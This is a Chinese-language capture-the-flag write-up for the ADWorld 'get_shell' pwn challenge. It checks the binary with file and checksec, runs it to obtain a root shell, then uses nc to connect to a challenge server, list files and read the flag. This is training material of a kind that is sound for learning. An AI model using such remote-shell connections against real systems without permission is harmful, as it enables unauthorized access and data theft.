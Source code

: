 # pwn

## 0x00_get_shell

1. 使用`file`看出文件是64bit

    ```bash
    $ file get_shell
    get_shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6334e8ad1474b290bdb69d75a1b44ed029669888, not stripped
    ```

1. 使用`checksec`

    ???+ note "checksec"
        [checksec](https://github.com/slimm609/checksec.sh)是用来检查可执行文件属性的shell脚本.

    ```bash
    $ ./checksec --file=../../adworld/pwn/get_shell
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
    Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols     No       0               0       ../../adworld/pwn/get_shell
    ```

1. 运行程序, 表示服务器上运行的程序可以让我们拿到shell!

    ```bash
    $ ./get_shell
    OK,this time we will get a shell.
    sh-4.3# id
    uid=0(root) gid=0(root) groups=0(root)
    ```

1. 使用`nc`正向连接服务器, 查看服务器文件, 获取flag

    ```bash hl_lines="2 10"
    $ nc 111.198.29.45 45955
    ls
    bin
    dev
    flag
    get_shell
    lib
    lib32
    lib64
    cat flag
    cyberpeace{28010e1bfd680641e27335a3b41273d0}
    ```

    ???+ tip
        使用`nc`连接到远程服务器后, 没有任何提示符, 直接使用命令即可.
